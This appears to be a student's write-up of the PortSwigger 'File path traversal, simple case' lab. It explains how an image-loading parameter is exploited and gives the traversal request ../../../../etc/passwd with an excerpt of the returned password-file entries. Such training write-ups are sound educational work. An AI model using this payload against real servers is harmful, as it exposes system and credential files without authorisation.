

# File Path Traversal – Simple Case (PortSwigger)

**Category:** File Path Traversal  
**Difficulty:** Apprentice  
**Lab:** File path traversal, simple case

---

## 🧠 Objective
Exploit a file path traversal vulnerability in the image loading functionality to retrieve sensitive files from the server.

---

## 📝 Vulnerability Summary
The application loads product images using a request such as:

```
GET /image?filename=47.jpg
```

The `filename` parameter is concatenated directly into a filesystem path on the server without sanitization.  
Because the application does not validate or restrict the path, an attacker can use `../` sequences to traverse directories and access arbitrary files.

---

## 🎯 Exploitation
I intercepted the image request using Burp Proxy by opening the product image in a new tab.  
Then I sent the request to Burp Repeater and replaced the filename with a directory traversal payload targeting `/etc/passwd`.

### 🔹 Modified request:
```
GET /image?filename=../../../../etc/passwd
```

### 🔹 Server response (excerpt)
The response contained valid `/etc/passwd` entries such as:

```
root:x:0:0:root:/root:/bin/bash
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
peter:x:12001:12001:/home/peter:/bin/bash
```

This confirms successful file path traversal.

---

## 📸 Screenshots

  


---

## ✅ Result
The traversal payload successfully retrieved `/etc/passwd`, confirming the vulnerability and solving the lab.
